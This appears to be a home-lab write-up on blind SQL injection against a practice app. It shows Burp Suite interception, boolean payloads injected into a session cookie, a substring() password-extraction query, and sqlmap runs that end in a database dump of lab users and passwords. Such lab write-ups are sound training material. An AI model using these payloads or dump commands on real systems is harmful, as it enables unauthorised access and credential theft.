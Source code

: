 # SQL Injection - Blind

**Credentials:**
| Username | Password |
|----------|----------|
| jeremy   | jeremy   |

- Upon successfully logging in using the provided credentials, we discovered a welcome message within the system.
  
![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/da9463ed-fda5-4ef4-97ad-2d910cb6cea5)

- After intercepting the request using Burp Suite, I successfully sent it to the Repeater tool for further analysis and manipulation.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/46289fcf-dfff-481c-92bc-fe81d950c8c6)

- During the process of sending the request through the Repeater tool, Observe the Content-Length header. The Content-Length indicates the size of the request body in bytes. Understanding the Content-Length can indeed be helpful when crafting or modifying subsequent requests, especially when dealing with different sets of credentials or payloads.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/d28f1f7a-8e88-4e6d-9c10-0fad0db1029a)

- By repeatedly passing incorrect credentials, observe the changes in the Content-Length.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/520d3924-929d-4db5-8625-53304fb8573e)

- Copy the entire request, including the request method, headers, and body. Open a text editor Create a new file in the text editor and paste the copied request into it. Save the file with an appropriate name, such as "request.txt".

- By executing the command `sqlmap -r request.txt`, I initiated an automated SQL injection testing process using the provided request.

```bash
└─$ sqlmap -r request.txt                                                                                 
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.6#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:30:10 /2023-07-15/

[06:30:10] [INFO] parsing HTTP request from 'request.txt'
[06:30:10] [INFO] testing connection to the target URL
[06:30:10] [INFO] checking if the target is protected by some kind of WAF/IPS
[06:30:10] [INFO] testing if the target URL content is stable
[06:30:10] [INFO] target URL content is stable
[06:30:10] [INFO] testing if POST parameter 'username' is dynamic
[06:30:10] [WARNING] POST parameter 'username' does not appear to be dynamic
[06:30:10] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[06:30:10] [INFO] testing for SQL injection on POST parameter 'username'
[06:30:10] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[06:30:11] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[06:30:11] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[06:30:11] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[06:30:11] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[06:30:11] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[06:30:11] [INFO] testing 'Generic inline queries'
[06:30:11] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[06:30:11] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[06:30:11] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[06:30:11] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[06:30:11] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[06:30:11] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[06:30:11] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] y
[06:30:13] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[06:30:13] [WARNING] POST parameter 'username' does not seem to be injectable
[06:30:13] [INFO] testing if POST parameter 'password' is dynamic
[06:30:13] [WARNING] POST parameter 'password' does not appear to be dynamic
[06:30:13] [WARNING] heuristic (basic) test shows that POST parameter 'password' might not be injectable
[06:30:13] [INFO] testing for SQL injection on POST parameter 'password'
[06:30:13] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[06:30:13] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[06:30:13] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[06:30:13] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[06:30:13] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[06:30:13] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[06:30:13] [INFO] testing 'Generic inline queries'
[06:30:13] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[06:30:13] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[06:30:13] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[06:30:13] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[06:30:13] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[06:30:13] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[06:30:13] [INFO] testing 'Oracle AND time-based blind'
[06:30:13] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[06:30:14] [WARNING] POST parameter 'password' does not seem to be injectable
[06:30:14] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

[*] ending @ 06:30:14 /2023-07-15/
```

- No SQL injection found. Upon further investigation in Burp Suite, we discovered a token being sent with the POST request.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/3512d294-ff25-4f09-b555-4b4369e85ed2)

- After sending the request to the repeater in Burp Suite, I carefully observed and noted the Content-Length value in the response.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/386a75b3-aff8-463e-8c74-83bd9d0907c8)

- Upon manipulating the session cookie by adding `' and 1=1#`, and observing that the response remains the same, it strongly suggests the presence of a SQL injection vulnerability within the application.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/804d6b66-a89e-4a9d-a61a-77516a6a863b)

- By crafting the payload `' and ((select version()), 1, 5) = '8.0.3'#` and receiving a positive response, it strongly indicates that the underlying SQL database is running version 8.0.3

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/c415d557-f5cb-4936-b5b0-3499636110cf)

- let's grab passwords from the DB by sending payload `' and substring(select password from injection0x02 where username = 'jessamy'), 1, 1) = 'a'#` We get an error response, to make the injection fast send the request to the intruder and send the characters for verification.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/89c4bfc1-49cc-4d8a-b3dc-0220837a52a9)

- By crafting a list of character payloads and sending them as requests, we received responses back from the target system.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/24eba318-9beb-4f7e-919c-2b5c2153daae)

- use SQLMap with the captured request and exclude the injection code, and save the request to a file named "request2.txt"

```bash
└─$ sqlmap -r request2.txt -level=2 --dump
        ___
       __H__                                                                                                                                                                                                      
 ___ ___[(]_____ ___ ___  {1.7.6#stable}                                                                                                                                                                          
|_ -| . [']     | .'| . |                                                                                                                                                                                         
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                         
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                      

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:00:35 /2023-07-15/

[10:00:35] [INFO] parsing HTTP request from 'request2.txt'
[10:00:35] [INFO] resuming back-end DBMS 'mysql' 
[10:00:35] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: session (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND 9759=9759 AND 'RaIN'='RaIN

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND (SELECT 4011 FROM (SELECT(SLEEP(5)))cqmB) AND 'cWbz'='cWbz
---
----------------------------------snip---------------------------------
Database: peh-labs
Table: idor0x01
[20 entries]
+------+--------+--------------------------------+----------+
| id   | type   | address                        | username |
+------+--------+--------------------------------+----------+
| 1000 | user   | 10, Rainbow Road, ALU 5QW      | jessamy  |
| 1001 | user   | 22, Wonderland Ave, LDN 4BD    | alice    |
| 1002 | user   | 33, Builder St, BLD 3KT        | bob      |
| 1003 | user   | 44, Chocolate Factory, CCF 2JD | charlie  |
| 1004 | user   | 55, Lister Lane, RDD 1HE       | dave     |
| 1005 | user   | 66, Hacker Road, HRK 5GT       | erin     |
| 1006 | user   | 77, Weasley Way, HGP 4RD       | fred     |
| 1007 | user   | 88, Weasley Way, HGP 4RD       | george   |
| 1008 | admin  | 99, Potter Drive, HGP 3KT      | harry    |
| 1009 | user   | 11, Lightwood Road, SHW 2EC    | isabelle |
| 1010 | admin  | 121, Sparrow Street, PRT 4BD   | jack     |
| 1011 | user   | 131, Duchess Drive, LDN 3AW    | kate     |
| 1012 | admin  | 141, Diamond Street, LDN 2RT   | lucy     |
| 1013 | user   | 151, Twain Road, USA 1MT       | mark     |
| 1014 | admin  | 161, Drew Drive, USA 2ND       | nancy    |
| 1015 | user   | 171, Twist Street, LDN 3TW     | oliver   |
| 1016 | user   | 181, Parker Place, USA 4PP     | peter    |
| 1017 | user   | 191, Quincy Quay, QQY 5QY      | quincy   |
| 1018 | user   | 202, Green Avenue, USA 6RG     | rachel   |
| 1019 | user   | 212, Rogers Road, USA 7SR      | steve    |
+------+--------+--------------------------------+----------+

Database: peh-labs
Table: auth0x02
[2 entries]
+---------+----------+----------------------------------+
| mfa     | username | password                         |
+---------+----------+----------------------------------+
| <blank> | jessamy  | pasta                            |
| <blank> | jeremy   | 66c53f8b7a7cab26545e81375726e189 |
+---------+----------+----------------------------------+
```
